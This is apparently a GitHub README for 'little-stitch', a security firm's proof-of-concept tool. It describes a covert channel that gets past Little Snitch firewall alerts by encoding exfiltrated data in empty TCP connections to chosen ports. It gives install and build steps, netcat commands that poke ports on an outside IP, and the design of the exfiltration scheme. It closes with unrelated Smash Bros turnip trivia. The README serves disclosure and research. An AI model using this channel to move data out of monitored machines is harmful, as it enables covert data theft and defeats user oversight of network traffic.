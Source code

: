 # little-stitch
Send and receive bypassing Little Snitch alerting.

## Demo

https://user-images.githubusercontent.com/4079939/146304055-ddcbd09f-0379-4c49-af65-cb2de9fa979e.mov

## Usage

### Install

```
tag=$(curl -s https://api.github.com/repos/RhinoSecurityLabs/little-stitch/releases/latest|jq -r '.tag_name'|tr -d 'v')
curl -L "https://github.com/RhinoSecurityLabs/little-stitch/releases/download/v${tag}/little-stitch_${tag}_$(uname -s)_$(uname -m).tar.gz" \
    | tar -xzf - -C /usr/local/bin/ little-stitch
```

### Build

Make sure a recent version of GoLang is installed and set up (tested with golang 1.17.2).

```
go build -o little-stitch main.go
```


### Server

Currently, this PoC does not differentiate between clients so you'll likely want a firewall setup allowing ports
11100-11300 only from the client IP address. Other clients connecting to these ports while the server running
will change the output.

```
echo 'hello from server' | ./little-stitch server
```

### Client

You'll want to start the server before the client, you may get unexpected results if you start the client first.

```
echo 'hello from client' | ./little-stitch client <server ip address>
```

## Bypassing Little Snitch Firewall with Empty TCP Packets

Little Snitch does not trigger an alert when a TCP connection is established but instead is triggered
when application data is sent across the connection. So if you set up a TCP connection and immediately close it,
before sending any data across it, an alert will not be triggered by Little Snitch.

You can test this without installing anything on your computer with the nc command.

Note: For unknown reasons, Little Snitch alerting seems to be inconsistent when netcat is used like this. If you
are getting alerts with the following commands you may have more success with the PoC, which is more reliable.

```
% nc -G 2 -vz 1.1.1.1 80
Connection to 1.1.1.1 port 80 [tcp/http] succeeded!
% nc -G 2 -vz 1.1.1.1 81
nc: connectx to 1.1.1.1 port 81 (tcp) failed: Operation timed out
```

While we aren't sending any data across the connection, this behavior alone is enough to enable two-way
communications between a server and a client running behind Little Snitch without being detected.

## Implementation Details

For exfiling data to an attacker-controlled server, instead of sending data across the TCP connection as
application data, we want to encode our data as attributes of the TCP/IP connection. These attributes should
be modifiable by an underprivileged user, and be readable by the server without affecting routing.

There are several attributes of a TCP connection that fill these requirements, however the most
straightforward is the destination port number, and whether a connection is opened or not. If we
are trying to send a byte at a time to the server we can use a range of 8 destination ports each
representing a bit in the current byte. We can then have an initiated connection represent a one while
doing nothing represents a zero, so essentially whether a connection is opened or not in the current
cycle represents a single bit. Once we have made all the connections needed we can then send a connection
to a ninth port, indicating to the server the current cycle is complete.

We can run through this manually to get a better idea of what is happening here by just running the server-side
of the connection and using `nc` to open the connections which will set (poke) the bits on the server.

```
./little-stitch server
```

With the server running we can take a look at the bit's needed to represent an ASCII `A`.

```
$ echo -n 'A' | xxd -b
00000000: 01000001                                               A
```

From the output of `xxd` we can see, if we are counting from right to left (assuming you are using a little-endian
system) bits 1 and 7 are set. So to print an 'A' we'll want to poke ports 11101 and 11107, following up with a 11100
to flush the byte to stdout.

```
% nc -vz 34.125.141.146 11101
Connection to 34.125.141.146 port 11101 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11107
Connection to 34.125.141.146 port 11107 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11100
Connection to 34.125.141.146 port 11100 [tcp/*] succeeded!
```

If we look at the server we'll see the following.

```
$ ./little-stitch
A
```

Sending data the other direction isn't as simple since we can't send data directly from the server to the client, which will
most likely be on a network restricted with NAT. So instead of poking ports when we need to represent the value of a
given bit, we'll instead open the ports on the server corresponding to the set bits of the current byte. The client can
then iterate over these ports and record whether they were opened or closed to determine the value of the current byte.
In the demo we can see that this is slower than sending data to the server, this is because the client has more ports
overall to check (currently this is unoptimized, and closing the connection eats up a fair amount of time) and because
the server and the client need to be more careful about remaining in sync during this process.

## Transfer Speed

This unoptimized proof of concept is very low bandwidth, based on observations it appears to be able to upload at about 16 bit/s
and download at about 8 bit/s. Currently, the majority of time is spent waiting on TCP connections to close and because everything is run
serialized this ends up slowing things down quite a bit. Listed below are a few possible optimizations along with the estimated
speed up (these are very rough, and may not even work as expected, so take this with a grain of salt).

* Encoding data in the source port.
  * Estimated speed up: 2x
* Use NFQUEUE on the server to read Syn packets sent by the client without opening a full TCP connection.
  * Estimated speed up: 5x, maybe more, at the cost of reliable transfers. This is because each connection needs to
    go through the full TCP handshake and teardown process. This results in 5 packets per connection (SYN, SYN/ACK, ACK, client
    FIN/ACK, server FIN/ACK).
* Parallelizing data transfer and compression.
  * Estimated speed up: ?
* Use TCP OOB flag for data.
  * Estimated speed up: 1 bit per connection.
* Use TCP Urgent flag for data.
  * Estimated speed up: 1 bit per connection.


## What's with the Little Stitch name?

Snitch sounds like stitch, and little-stitch reminds me of Stitch Face, which is Peach's ultimate turnip in Smash Bro's Melee. Anyways, since
you seem to be so interested in Peach's turnips now, the rest of this README is about them.

Peaches turnips come in many variations and typically do 2%-10% damage when thrown. The Stitch Face Turnip is unique however, it is one of the
two rarest turnips in the game with only a 1.711% chance of appearing with each pull. What puts it apart from the other turnips isn't its
rarity however, it's the punch it packs at 34% damage, making it the most powerful item that is legal in tournament play.

Turnip Tip: after you throw it and it hits your opponent try recatching it by jumping and pressing Z when the turnip bounces back and passes
through peaches body onscreen.

### Turnip Stats

| Turnip Name | Damage      | Probability |
| ----------- | ----------- |-------------|
| Normal      | 6 %         | 59.873 %    |
| Eybrow Eyes | 6 %         | 10.264 %    |
| Line Eyes   | 6 %         | 8.553 %     |
| Circle Eyes | 6 %         | 5.132 %     |
| Carrot Eyes | 6 %         | 5.132 %     |
| Wink        | 10 %        | 6.843 %     |
| Dot Eyes    | 16 %        | 1.711 %     |
| Stitch Face | 34 %        | 1.711 %     |

